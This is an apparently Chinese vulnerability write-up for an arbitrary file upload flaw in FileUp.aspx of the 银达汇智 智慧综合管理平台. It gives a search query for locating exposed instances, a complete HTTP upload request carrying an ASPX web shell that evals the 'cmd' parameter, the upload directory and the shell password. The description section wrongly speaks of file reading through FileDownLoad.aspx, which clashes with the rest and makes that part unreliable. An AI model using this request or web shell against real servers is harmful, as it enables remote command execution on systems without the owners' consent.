 # 银达汇智 智慧综合管理平台 FileUp.aspx 任意文件上传漏洞

## 漏洞描述

银达汇智 智慧综合管理平台 FileDownLoad.aspx 存在任意文件读取漏洞，通过漏洞攻击者可下载服务器中的任意文件

## 漏洞影响

<a-checkbox checked>银达汇智 智慧综合管理平台 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>"汇智信息" && title=="智慧综合管理平台登入"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1627914977251-450973a6-e847-454b-817b-efa35fdc4aed.png)

文件上传请求包

```bash
POST /Module/FileUpPage/FileUp.aspx?orgid=1&type=NNewsContent HTTP/1.1
Host: 
Accept-Encoding: identity
Content-Length: 337
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=62907949903a4c499178971c9dab4ad9

--62907949903a4c499178971c9dab4ad9
Content-Disposition: form-data; name="Filedata"; filename="abc.aspx"
Content-Type: image/jpeg

<%@ Page Language="Jscript"%><%Response.Write(FormsAuthentication.HashPasswordForStoringInConfigFile("abc", "MD5").ToLower());eval(Request.Item["cmd"],"unsafe");%>
--62907949903a4c499178971c9dab4ad9--
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1629368451848-7ecbcd3e-82cc-4608-b9a9-a312826248ea.png)

响应包会返回文件名，上传的目录为

```bash
/imgnews/imgcontent/1/xxxxxxxxxx.aspx
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1629368525052-fffda86a-30fa-4dc0-a3a0-537a0be5b5c3.png)

出现如图成功上传木马，密码为 `cmd`
